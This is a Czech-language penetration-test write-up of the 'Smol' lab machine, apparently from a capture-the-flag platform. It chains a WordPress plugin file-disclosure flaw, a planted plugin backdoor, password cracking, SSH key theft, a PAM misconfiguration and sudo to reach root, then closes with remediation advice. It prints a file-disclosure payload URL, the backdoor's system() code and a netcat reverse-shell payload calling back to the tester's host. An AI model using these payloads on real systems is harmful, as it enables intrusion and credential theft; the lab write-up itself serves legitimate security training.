










---

# **Zpráva z penetračního testu: Smol**

---

### **Shrnutí**

Tento penetrační test dosáhl plného rootovského kompromisu zřetězením několika zranitelností. Útok začal chybou zveřejnění souborů v pluginu WordPress, která vedla k objevení zadních vrátek poskytujících počáteční přístup k shellu.

Eskalace privilegií byla následně provedena prostřednictvím prolomení hesel, odcizením SSH klíče, zneužití nesprávné konfigurace PAM souboru a nakonec využití neomezených sudo oprávnění k získání rootovského přístupu.

---

**Informace o cíli**

- **IP adresa cíle:** 10.114.162.63
- **Operační systém:** Linux
- **Otevřené porty:**
    - 22/tcp – SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.9)
    - 80/tcp - HTTP (Apache httpd 2.4.41 (Ubuntu))
- **Typ hodnocení:** Autorizované laboratorní prostředí

---

### **Souhrnná zpráva**

Byl proveden komplexní externí penetrační test proti cílové infrastruktuře identifikované jako `smol.thm`. Cílem bylo identifikovat zranitelnosti, nesprávné konfigurace a potenciální útočné cesty, které by mohly vést k úplnému kompromisu systému.

Byla úspěšně demonstrována kritická cesta od počátečního externího průzkumu až k získání rootovského přístupu na cílovém serveru.

Počáteční přístup byl dosažen zneužitím známé zranitelnosti zveřejnění souborů v pluginu WordPress, která vedla k objevení zadních vrátek v jiném pluginu. To umožnilo vzdálené spouštění kódu a získání počáteční opory v systému. Následně došlo k využití řady technik eskalace privilegií - včetně prolomení přihlašovacích údajů, krádeže soukromých klíčů, zneužití nesprávné konfigurace PAM a prolomení hesel - k eskalaci privilegií na uživatele `root`.

**Celkové hodnocení rizika: Kritické**

Zjištění zdůrazňují kaskádový dopad nezabezpečených programovacích postupů, konfiguračních slabin a hromadění citlivých informací. Kompromis uživatele s nízkými oprávněními nakonec vedl k úplnému ovládnutí hostitele, což prokazuje významné narušení bezpečnosti.

---

### **Rozsah a metodika**

**Rozsah:**

- **Cíl:** `10.114.162.63`
- **Názvy hostitelů:** `smol.thm`, `www.smol.thm`
- **Porty/protokoly:**
    - `22/tcp` (SSH)
    - `80/tcp` (HTTP)

**Metodika:**

1. **Průzkum a enumerace:** Identifikace otevřených portů, běžících služeb a veřejně přístupných informací.
2. **Enumerace zranitelností:** Identifikace potenciálních bezpečnostních chyb v objevených službách a aplikacích.
3. **Exploitace:** Získání neoprávněného přístupu využitím identifikovaných zranitelností.
4. **Post-exploitace a eskalace privilegií:** Zajištění perzistence, eskalace privilegií a identifikace citlivých dat.
5. **Dokumentace:** Zdokumentování zjištění, hodnocení rizik a doporučených kroků k nápravě.

---

### **Enumerace a exploitace**

### **Počáteční přístup: Externí kompromis prostřednictvím zranitelností pluginů WordPress**

**Shrnutí zranitelnosti**

Počáteční přístup byl dosažen řetězcem zranitelností v instalaci WordPress. Tato fáze zneužila dvě odlišné slabiny: zranitelnost zveřejnění informací a skrytá zadní vrátka.

**Technický postup**

1. **Průzkum:** Byl použit dvoufázový přístup k průzkumu k mapování útočné plochy cíle při minimalizaci detekce.
    
    **Krok 1 – Objev portů:** Byl proveden rychlý TCP SYN sken s nízkým šumem proti prvním 1000 portům k identifikaci otevřených služeb bez provádění hloubkové detekce služeb.
    
    
    
    **Krok 2 – Enumerace služeb:** Po identifikaci otevřených portů byl proveden cílený hloubkový sken pro získání informací o verzích a spuštění výchozích skriptů pouze proti relevantním portům (22 a 80). Tento přístup snížil síťový šum při maximalizaci sběru informací.
    
    
    
    Výsledky potvrdily dva otevřené porty – `22` (SSH) a `80` (HTTP) – přičemž HTTP služba přesměrovávala na `http://www.smol.thm`.
    
2. **Enumerace WordPress:** Pomocí `wpscan` byl identifikován zastaralý plugin `jsmol2wp v1.07`.
    
    
    
    
    
3. **Exploitace: Zveřejnění souborů (CVE-2018-20463):** Tato verze pluginu je zranitelná vůči útoku zveřejnění souborů. Vytvořením škodlivého požadavku byl získán obsah `wp-config.php`, který odhalil přihlašovací údaje k databázi (`wpuser:kb[REDACTED]%G`).

**Payload:**

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`


1. **Laterální pohyb: Kompromis administrátora WordPress:** Získané přihlašovací údaje byly úspěšně použity k přihlášení do administrátorského panelu WordPress (`/wp-login.php`).
    
    
    
2. **Objev zadních vrátek:** Soukromá stránka "Webmaster Tasks!!" obsahovala seznam úkolů zmiňující potenciální zadní vrátka v pluginu "Hello Dolly". S využitím zranitelnosti zveřejnění souborů byl znovu získán zdrojový kód pluginu.
    
    
    
    
    
3. **Reverzní inženýrství zadních vrátek:** Base64 řetězec byl dekódován na kód, který kontroluje parametr `cmd` a spouští jej pomocí `system()`.
    
    php
    
    ```
    if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
    ```
    
4. **Exploitace pro vzdálené spouštění kódu:** Protože je funkce `hello_dolly()` volána na každé stránce administračního rozhraní, byl přes parametr `cmd` odeslán payload reverzního shellu do administrátorského panelu.
    
    
    
    **Payload:**
    
    `http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.114.102.68%204444%20%3E%2Ftmp%2Ff`
    
5. **Výsledek:** Byl získán reverzní shell jako uživatel `www-data`.
    
    
    

---

### **Interní průzkum a eskalace privilegií na `diego`**

**Shrnutí zranitelnosti**

Slabé ukládání hesel a opakované používání hesel umožnily kompromis uživatelského účtu, který poskytl stabilnější oporu v systému.

**Technický postup**

1. **Přístup k databázi:** S využitím přihlašovacích údajů k databázi z `wp-config.php` byla dotazována MySQL databáze k extrakci hashů hesel všech uživatelů WordPress.
    
    
    
2. **Prolomení přihlašovacích údajů:** Hash hesla pro uživatele `diego` byl prolomen pomocí `john` se slovníkem `rockyou.txt`. Bylo zjištěno, že heslo v čistém textu je `sa*******ia`.
    
    
    
3. **Eskalace privilegií:** Prolomené heslo bylo použito k přepnutí na uživatele `diego` pomocí `su`, což poskytlo schopnější uživatelský shell.

```bash
www-data@smol:/var/www/wordpress/wp-admin$ su - diego
Password: [REDACTED]
diego@smol:~$
```

---

### **Eskalace privilegií na `think` prostřednictvím krádeže soukromého klíče**

**Shrnutí zranitelnosti**

Nezabezpečená oprávnění souborů v adresáři `/home` umožnila uživateli číst soukromý SSH klíč jiného uživatele, což vedlo k převzetí účtu.

**Technický postup**

1. **Kontrola členství ve skupině:** Bylo zjištěno, že uživatel `diego` je členem skupiny `internal`.
    
    
    
2. **Objev citlivých dat:** Toto členství ve skupině udělovalo přístup ke čtení domovských adresářů ostatních uživatelů (např. `think`, `gege`, `xavi`). V `/home/think/.ssh/id_rsa` byl objeven soukromý SSH klíč.
    
    
    
3. **Laterální pohyb:** Objevený soukromý klíč byl použit k navázání SSH relace jako uživatel `think`.
    
    
    

---

### **Eskalace privilegií na `gege` prostřednictvím nesprávné konfigurace PAM**

**Shrnutí zranitelnosti**

Nesprávně nakonfigurované pravidlo Pluggable Authentication Module (PAM) pro příkaz `su` umožňovalo eskalaci privilegií bez hesla.

**Technický postup**

1. **Analýza konfigurace:** Soubor `/etc/pam.d/su` obsahoval pravidlo, které umožňovalo libovolnému uživateli přepnout se na uživatele `gege`, pokud byl aktuálně `think`.
    
    
    
2. **Exploitace:** Uživatel `think` se mohl přepnout na `gege` bez jakéhokoli zadávání hesla.
    
    ```bash
    think@smol:~$ su - gege
    gege@smol:~$ id
    uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
    ```
    

---

### **Eskalace privilegií na `xavi` prostřednictvím prolomení hesla**

**Shrnutí zranitelnosti**

Heslem chráněný ZIP archiv v domovském adresáři uživatele obsahoval historická konfigurační data včetně přihlašovacích údajů pro jiného uživatele.

**Podrobné kroky**

1. **Objev citlivého souboru:** Velký ZIP archiv `wordpress.old.zip` byl nalezen v domovském adresáři uživatele `gege`.
2. **Extrakce dat a prolomení:** Soubor byl stažen a bylo zjištěno, že je chráněn heslem. Pomocí `fcrackzip` bylo heslo archivu prolomeno jako `he**********.com`.
    
    
    
    
    
3. **Získání přihlašovacích údajů:** Po extrakci odhalil soubor `wp-config.php` v archivu nové přihlašovací údaje k databázi, konkrétně pro uživatele `xavi` (`P@[REDACTED]i@`).
    
    
    
4. **Eskalace privilegií:** Tyto přihlašovací údaje byly použity s `su` k úspěšnému přepnutí na uživatele `xavi`.
    
    
    
    ```
    gege@smol:~$ su - xavi
    Password: P@[REDACTED]i@
    xavi@smol:~$ id
    uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
    ```
    

---

### **Eskalace privilegií na `root` prostřednictvím Sudo**

**Shrnutí zranitelnosti**

Uživatel `xavi` měl neomezená `sudo` oprávnění, což umožnilo okamžité a úplné převzetí systému.

**Podrobné kroky**

1. **Kontrola sudo oprávnění:** Uživatel `xavi` měl plná administrativní oprávnění, jak ukázal příkaz `sudo -l`.
    
    ```
    xavi@smol:~$ sudo -l
    User xavi may run the following commands on smol:
        (ALL : ALL) ALL
    ```
    
2. **Rootovský přístup:** Toto oprávnění bylo využito k přepnutí na uživatele `root`, což vedlo k úplnému kompromisu systému.
    
    ```
    xavi@smol:~$ sudo su -
    root@smol:~$ id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    
    
    

---

### **Hodnocení rizik**

| **Zjištění** | **Popis** | **Pravděpodobnost** | **Dopad** | **Hodnocení rizika** |
| --- | --- | --- | --- | --- |
| **Zranitelný plugin WordPress** | Zastaralý plugin `jsmol2wp` se známou zranitelností zveřejnění souborů (CVE-2018-20463). | Vysoká | Střední | **Vysoké** |
| **Zadní vrátka v pluginu** | Zadní vrátka v pluginu "Hello Dolly" umožňují vzdálené spouštění kódu. | Vysoká | Vysoký | **Kritické** |
| **Slabé přihlašovací údaje** | Heslo uživatele WordPress (`diego`) prolomeno pomocí běžného slovníku. | Střední | Střední | **Střední** |
| **Nezabezpečená oprávnění souborů** | Domovské adresáře uživatelů čitelné pro skupinu `internal`, vystavující soukromý SSH klíč. | Vysoká | Vysoký | **Vysoké** |
| **Nesprávná konfigurace PAM** | Chybná pravidla `/etc/pam.d/su` umožňují eskalaci privilegií na `gege` bez hesla. | Nízká | Vysoký | **Vysoké** |
| **Nezabezpečené ukládání dat** | Heslem chráněný ZIP archiv obsahující citlivé přihlašovací údaje uložený v domovském adresáři uživatele. | Střední | Střední | **Střední** |
| **Nadměrná sudo oprávnění** | Uživatel `xavi` má neomezená `sudo` (ALL : ALL) oprávnění. | Vysoká | Kritický | **Kritické** |

---

### **Závěr**

Bezpečnostní hodnocení infrastruktury "Smol" úspěšně kompromitovalo cílový systém a dosáhlo plného rootovského přístupu. Útočný řetězec začal zranitelností zveřejnění souborů s relativně nízkým dopadem v pluginu WordPress, která v kombinaci s objevenými zadními vrátky poskytla počáteční oporu. Tento počáteční přístup byl následně metodicky eskalován prostřednictvím řady běžných, ale účinných post-exploitačních technik, včetně prolomení hesel, krádeže soukromých klíčů a zneužití nesprávných konfigurací v PAM a sudo.

Cesta k rootovi zdůrazňuje kritický bezpečnostní princip: **bezpečnost je pouze tak silná, jak silný je nejslabší článek v řetězci.** Každý krok eskalace závisel na odlišné zranitelnosti nebo nesprávné konfiguraci. Konečný kompromis byl triviální díky udělení neomezených `sudo` oprávnění konečnému uživateli.

---

### **Doporučení**

1. **Řízení zranitelností:**
    - Implementovat přísné zásady správy záplat pro veškerý software třetích stran, zejména jádro WordPress, témata a pluginy. Okamžitě odstranit nebo aktualizovat zastaralý plugin `jsmol2wp`.
    - Provádět pravidelné skenování zranitelností webové aplikace a základní infrastruktury.
2. **Bezpečný vývoj a konfigurace:**
    - **Odstranit zadní vrátka:** Okamžitě odstranit veškerá zadní vrátka nebo neautorizovaný kód ze všech pluginů, včetně pluginu "Hello Dolly", pokud jeho použití není vyžadováno.
    - **Revize pluginů WordPress:** Udržovat pouze nezbytné pluginy. Odstranit všechny pluginy, které nejsou nezbytné pro obchodní operace.
3. **Správa přihlašovacích údajů:**
    - Zavést silné zásady hesel pro všechny uživatele. Hesla jako `s*******nia` jsou zranitelná vůči slovníkovým útokům.
    - Nikdy neukládat přihlašovací údaje v čistém textu v konfiguračních souborech (jako `wp-config.php`) nebo zálohách.
    - Implementovat správce hesel pro administrátorské a vývojářské účty.
4. **Řízení přístupu a správa privilegií:**
    - **Nejmenší oprávnění:** Důsledně dodržovat princip nejmenších oprávnění. Uživatel `xavi` by neměl mít neomezený `sudo` přístup. Jeho `sudo` oprávnění by měla být omezena pouze na příkazy vyžadované pro jeho funkci.
    - **Revize členství ve skupinách:** Přehodnotit oprávnění skupin, zejména skupiny `internal`, aby uživatelé nemohli přistupovat k domovským adresářům ostatních bez obchodního odůvodnění.
    - **Zabezpečení konfigurace PAM:** Zkontrolovat a posílit konfiguraci PAM pro `su`, aby se zabránilo neúmyslnému přístupu bez hesla. Implementovat správné autentizační kontroly.
5. **Zabezpečení dat a zálohování:**
    - Zajistit, aby citlivé informace (např. SSH klíče, konfigurační soubory) nebyly uloženy v domovských adresářích uživatelů s oprávněním čitelným pro všechny.
    - Zabezpečit záložní archivy. Heslem chráněný ZIP soubor není dostatečný, pokud je heslo slabé. Zálohy by měly být šifrovány a uloženy na bezpečném, odděleném místě.
6. **Segmentace sítě a monitorování:**
    - Implementovat segmentaci sítě k omezení laterálního pohybu v rámci infrastruktury.
    - Nasadit detekci a reakci koncových bodů (EDR) a monitorovat protokoly pro podezřelé aktivity, jako jsou neobvyklé příkazy `su` nebo spouštění neobvyklých procesů jako `mkfifo` a `nc`.